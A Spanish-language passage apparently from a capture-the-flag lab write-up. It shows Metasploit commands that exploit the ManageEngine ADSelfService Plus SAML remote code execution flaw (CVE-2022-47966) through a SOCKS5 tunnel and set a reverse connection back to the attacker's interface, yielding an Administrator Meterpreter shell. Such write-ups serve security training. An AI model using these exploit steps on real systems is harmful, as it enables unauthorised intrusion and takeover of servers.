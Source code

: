 - Vemos que hay un RCE, utilizamos esa exploit y verificamos las opciones necesarias:

```js
$use 2
$show options
```


- Seteamos las opciones necesarias para que se ejecute el exploit, utilizando la información que hemos recolectado hasta ahora y usando como proxy el SOCKS5 que estamos usando para tunelizar todos los puertos de la máquina víctima:


```js
[msf](Jobs:0 Agents:0) exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) >> set GUID 67a8d101690402dc6a6744b8fc8a7ca1acf88b2f
GUID => 67a8d101690402dc6a6744b8fc8a7ca1acf88b2f
[msf](Jobs:0 Agents:0) exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) >> set ISSUER_URL http://dc.cerberus.local/adfs/services/trust
ISSUER_URL => http://dc.cerberus.local/adfs/services/trust
[msf](Jobs:0 Agents:0) exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) >> set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
[msf](Jobs:0 Agents:0) exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) >> set Proxies SOCKS5:127.0.0.1:1080
Proxies => SOCKS5:127.0.0.1:1080
[msf](Jobs:0 Agents:0) exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) >> set LHOST tun0
LHOST => 10.10.14.2
[msf](Jobs:0 Agents:0) exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) >> set ReverseAllowProxy true
```

- Finalmente ejecutamos "run" y ya se nos desplegaría un meterpreter como el usuario "Administrator", con el comando "shell" podemos abrir una cmd de Windows y podremos buscar la última flag.